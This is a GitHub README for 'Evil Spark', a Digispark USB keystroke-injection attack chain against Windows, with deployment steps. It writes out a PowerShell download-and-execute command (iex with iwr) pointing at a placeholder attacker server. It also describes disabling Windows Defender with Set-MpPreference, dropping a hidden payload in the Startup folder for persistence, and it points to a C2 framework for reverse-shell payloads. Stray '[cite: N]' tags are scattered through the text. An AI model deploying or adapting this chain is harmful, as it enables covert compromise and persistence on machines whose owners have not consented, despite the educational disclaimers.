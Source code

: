 # Evil Spark 
![Evil](https://github.com/MustafaCyb/Evil-Spark/blob/main/EvilSpark.png)
---

**⚠️ DANGER: EXTREME WARNING ⚠️**
This project is developed for **educational and research purposes ONLY**. Unauthorized use of this tool on any system or network without explicit, prior, mutual, and written consent is **ILLEGAL** and **STRICTLY PROHIBITED**. The creators and contributors of Evil Spark assume **NO LIABILITY** and are **NOT RESPONSIBLE** for any misuse, damage, or legal consequences arising from the use or handling of this software. **USE AT YOUR OWN EXTREMIA PERIL AND RESPONSIBILITY.**

---

## 🚀 Project Overview
Evil Spark demonstrates a proof-of-concept (PoC) attack chain utilizing a Digispark-compatible USB device. This device emulates keyboard actions to automate tasks on a target Windows machine, leading to the download and execution of a custom payload with persistence. This project integrates:
* A Linux-based server setup script (`setup.sh`).
* A Digispark sketch (`Evil_Spark.ino`) written in C++. [cite: 5]
* A PowerShell script (`Starter.ps1`) for payload deployment and execution. [cite: 4]

This project is designed to help understand HID attacks, payload delivery mechanisms, and basic persistence techniques from a defensive perspective.

## 🔥 Key Features
* ✔️ Automated Keystroke Injection via Digispark (HID Attack).
* ✔️ Apache Server Setup Script (`setup.sh`) for hosting payloads.
* ✔️ PowerShell-based payload stager (`Starter.ps1`) for:
    * Attempting to disable Windows Defender. [cite: 4]
    * Downloading the main payload. [cite: 4]
    * Executing the payload. [cite: 4]
    * Achieving persistence via the Startup folder. [cite: 4]

## 🔗 Workflow At a Glance
1.  **💻 Attacker Setup:**
    * The `setup.sh` script configures an Apache server on Linux to host `Starter.ps1` and the `payload.exe`.
    * The `Evil_Spark.ino` (C++ sketch) [cite: 5] is customized with the server's IP and uploaded to the Digispark device using the Arduino IDE.
2.  **🔌 Deployment:**
    * The programmed Evil Spark USB is plugged into the target Windows computer.
3.  **🤖 Automated Execution (Digispark):**
    * The Digispark emulates keyboard inputs. [cite: 5]
    * It attempts to disable Windows Defender through UI manipulation. [cite: 5]
    * It opens PowerShell (with attempted admin rights) [cite: 5] and commands it to download and execute `Starter.ps1` from the attacker's server. [cite: 5]
4.  **🎯 Payload Delivery & Persistence (`Starter.ps1`):**
    * `Starter.ps1` runs on the target machine. [cite: 4]
    * Downloads the main `payload.exe` (e.g., `ring.exe` as in the example script)[cite: 4].
    * Saves the payload to the Windows Startup folder for persistence. [cite: 4]
    * Hides the payload file. [cite: 4]
    * Executes the payload. [cite: 4]

## ⚙️ Project Components

### 1. `setup.sh` (Bash Script)
* Automates Apache2 web server setup on Debian-based Linux.
* Updates packages, installs Apache2, and starts the service.
* Creates `/var/www/html/tools` for hosting files. [cite: 3]
* Moves `payload.exe` (or your chosen name) and `Starter.ps1` to the tools directory. [cite: 3]

### 2. `Evil_Spark.ino` (Digispark C++ Sketch)
* Arduino C++ code for ATtiny85 based Digispark-compatible devices. [cite: 5]
* Simulates keyboard inputs to perform the automated attack steps. [cite: 5]
* **Requires Arduino IDE for compilation and upload.** (Download from: [https://www.arduino.cc/en/software/](https://www.arduino.cc/en/software/))

### 3. `Starter.ps1` (PowerShell Script)
* PowerShell script executed on the target. [cite: 4]
* Attempts `Set-MpPreference -DisableRealtimeMonitoring $true`. [cite: 4]
* Downloads the main payload (e.g., `ring.exe`) to the Startup folder. [cite: 4]
* Hides the payload using `attrib +h +s`. [cite: 4]
* Executes the payload. [cite: 4]

### 4. `payload.exe` (Example: `ring.exe`)
* **THIS IS THE CORE PAYLOAD YOU MUST CREATE OR PROVIDE.**
* This project *does not* include a pre-made `payload.exe`.
* Functionality is user-defined (e.g., reverse shell, information gathering, etc.).
* **Payload Inspiration & Reference:** For creating a custom payload, particularly one in Go (which compiles to an `.exe`), you can study projects like **RingShell**. RingShell is a Go-based C2 framework and can serve as an excellent reference for understanding how such payloads are structured and deployed.
    * RingShell GitHub Repository: [https://github.com/MustafaAbdulazizHamza/RingShell/tree/main](https://github.com/MustafaAbdulazizHamza/RingShell/tree/main)

## 🛠️ Prerequisites & Tools
* 🐧 A Linux machine (Debian-based recommended for `setup.sh`) for the server.
* 🔌 Digispark ATtiny85 compatible USB board.
* 💻 **Arduino IDE:** Used to compile the C++ sketch (`.ino`) and upload it to the Digispark. [cite: 5]
    * Download: [https://www.arduino.cc/en/software/](https://www.arduino.cc/en/software/)
* 🎯 A Windows target machine for testing (**WITH EXPLICIT, PRIOR, WRITTEN CONSENT ONLY**).
* 👾 Your custom `payload.exe` (e.g., `ring.exe`).

## 🚀 Setup & Deployment Guide

### 1.  SERVER: Apache Setup (`setup.sh`)
1.  Place `setup.sh`, your `payload.exe` (e.g., `ring.exe`), and `Starter.ps1` in the same directory on your Linux server.
2.  Edit `setup.sh`:
    * Set `PAYLOAD="your_payload_name.exe"` (e.g., `PAYLOAD="ring.exe"`). [cite: 3]
    * Ensure `SHELL_SCRIPT="Starter.ps1"`. [cite: 3]
3.  Make `setup.sh` executable: `chmod +x setup.sh`.
4.  Run with sudo: `sudo ./setup.sh`.
5.  Note your server's IP address (the script attempts to display it).

### 2. TARGET SCRIPT: `Starter.ps1` Configuration
1.  Edit `Starter.ps1`.
2.  Update the URI in `Invoke-WebRequest` to point to your payload on your server:
    * Example: `Invoke-WebRequest -Uri "http://<YOUR_SERVER_IP>/tools/ring.exe" -OutFile $target` [cite: 4]
    * Replace `<YOUR_SERVER_IP>` and ensure `ring.exe` matches your payload filename.

### 3. DIGISPARK: `Evil_Spark.ino` Programming
1.  Open `Evil_Spark.ino` (your C++ sketch for the Digispark) in the **Arduino IDE**. [cite: 5]
2.  Modify the line that fetches `Starter.ps1` to include your server's IP:
    * Example: `DigiKeyboard.print("iex (iwr 'http://<YOUR_SERVER_IP>/tools/Starter.ps1')");` [cite: 5]
3.  In Arduino IDE:
    * Ensure Digispark board drivers/support are installed.
    * Select the correct Digispark board from the Tools menu.
    * Compile and Upload the sketch to your Digispark.

### 4. 💣 DEPLOYMENT
1.  Ensure your Apache server is running and accessible.
2.  Plug the programmed Evil Spark USB into the **consenting** target Windows machine.
3.  The Digispark will emulate keystrokes and initiate the programmed sequence. [cite: 5]

## ❗ Important Considerations & Limitations
* **UAC (User Account Control):** The `.ino` sketch attempts to handle UAC. [cite: 5] Its success varies based on target system settings.
* **Antivirus (AV) & EDR:** Basic attempts to disable Windows Defender [cite: 4, 5] are included. Modern AV/EDR solutions will likely detect and block these activities. This PoC is not designed for stealth.
* **Keyboard Layouts:** Keystroke emulation typically assumes a US QWERTY layout. Results may vary on different layouts.
* **Timings & Delays:** `DigiKeyboard.delay()` values in the `.ino` sketch are critical. [cite: 5] Adjust them based on target system responsiveness.
* **Network Connectivity:** The target PC needs HTTP (port 80) access to your server.
* **Payload Naming:** Ensure consistency in payload filenames across `setup.sh`, `Starter.ps1`, and your actual payload file.

## 📜 Ethical Conduct & Legal Disclaimer
Reiterating the initial warning: This project is **STRICTLY FOR EDUCATIONAL PURPOSES**. Understanding offensive security techniques is vital for building robust defenses. **DO NOT USE THIS TOOL OR ANY DERIVATIVE ON SYSTEMS OR NETWORKS WITHOUT EXPLICIT, WRITTEN PERMISSION.** Unauthorized system access is a serious crime.

## 📄 License
This project is shared for educational exploration. While no specific open-source license is formally attached, users are expected to adhere to the ethical guidelines and disclaimers stated herein. If you adapt or distribute this work, please maintain its educational context and include all original warnings and disclaimers.

---
*Happy (Ethical) Hacking!* 👨‍💻🔬
